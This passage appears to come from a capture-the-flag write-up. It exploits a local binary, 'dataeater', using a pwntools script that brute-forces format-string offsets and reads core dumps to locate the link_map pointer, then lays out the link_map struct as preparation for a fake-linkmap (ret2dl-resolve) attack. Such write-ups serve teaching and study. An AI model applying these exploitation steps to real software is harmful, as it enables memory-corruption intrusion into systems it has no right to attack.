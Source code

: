 ```
linkmap_pointer = 0x601008
for x in range(1,99):
    print('--------------------------------------------')
    p = process('./dataeater')
    p.sendline(f"%s%{x}$s".encode())
    p.sendline(b'A'*8 + b' ' + b'B'*8 + b' ' + b'C')         # Input 'C' to end scanf
    
    # Wait until it crash. Core file will be made after crash.
    # If it doesn't crash, check manually to make sure it crash
    p.wait()

    core = Coredump('./core')

    # Read 8 bytes from address of linkmap_pointer
    linkmap_addr = u64(core.read(linkmap_pointer, 8))

    # Read all bytes at linkmap_addr and stop at null byte 
    if b'BBBBBBBB' in core.string(linkmap_addr):             
        print(x, hex(linkmap_addr))
        print(core.string(linkmap_addr))
        input()
    p.close()
```

Run it and we stop at x=32:

```
[+] Starting local process './dataeater': pid 5173
[*] Process './dataeater' stopped with exit code -11 (SIGSEGV) (pid 5173)
[+] Parsing corefile...: Done
[!] Error parsing corefile stack: Found bad environment at 0x7fffe24acfda
[*] './core'
    Arch:      amd64-64-little
    RIP:       0x7f79e36ba669
    RSP:       0x7fffe24ab6e0
    Exe:       './dataeater' (0x400000)
32 0x7f79e36d7180
b'BBBBBBBB'

```

That's good! Now let's begin to write fake linkmap!

- Stage 2: Create fake linkmap

First, we know that `_dl_fixup` just use l_info of linkmap. So that we will just need to build up l_info for linkmap.

Struct of linkmap:

```
struct link_map
{
    Elf64_Addr l_addr;                      # 64 bit
    char *l_name;                           # 64 bit
    Elf64_Dyn *l_ld;                        # 64 bit
    struct link_map *l_next, *l_prev;       # 64 bit
    struct link_map *l_real;                # 64 bit
    Lmid_t l_ns;                            # 64 bit
    struct libname_list *l_libname;         # 64 bit
    Elf64_Dyn l_info[77]                    # 64 bit
    ...
}
```
